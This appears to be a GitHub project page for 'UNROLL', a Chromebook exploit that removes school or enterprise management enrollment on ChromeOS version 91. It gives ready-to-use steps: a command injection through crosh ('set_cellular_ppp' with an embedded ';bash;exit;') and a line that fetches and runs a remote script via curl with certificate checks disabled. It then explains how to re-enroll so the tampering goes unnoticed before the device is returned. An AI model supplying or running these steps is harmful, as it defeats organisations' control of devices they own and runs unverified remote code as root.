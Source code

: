 **Uninrollment for Chromebook**

In order for this exploit to work you will need to downgrade to EXACTLY version 91. Downgrade instructions can be found here

This method requires crosh to be unblocked on your chromebook. Crosh can be opened with CTRL+ALT+T If it's blocked by an extension, you can disable it with LTBEEF v91 WILL NOT WORK ON GRUNT BOARDS OR ARM CHROMEBOOKS MAKE SURE YOU HAVE EXACTLY VERSION 91.0.4472.102, NOT VERSION 91.0.4472.167 STEPS: Open crosh (ctrl + alt + t) Type in **set_cellular_ppp ';bash;exit;'** and enter Type in **bash <(curl -k https://coolelectronics.me/unroll)** and enter Wait for the script to finish, then powerwash your chromebook

Steps to Re-Enroll when you turn your chromebook back in at the end of the year:

Enable Devmode (ESC+Power+Reload, ctrl d and enter on recovery screen) Once in chrome, Open crosh (ctrl + alt + t) Type in shell Type in sudo vpd -i RW_VPD -s check_enrollment=1 Powerwash again

Site made by CoolElectronics#4683 UNROLL (U Need Root LoL) acroynm by ULTRA BLUE#1850 and zuh#6098 justinchrm#3399 helped with testing Shroot™ name by phennen#9801 shroot80 script created by OlyB#9420 Kiosk Exploit found by Divide/B3AT Root exploits originally found by Rory McNamara
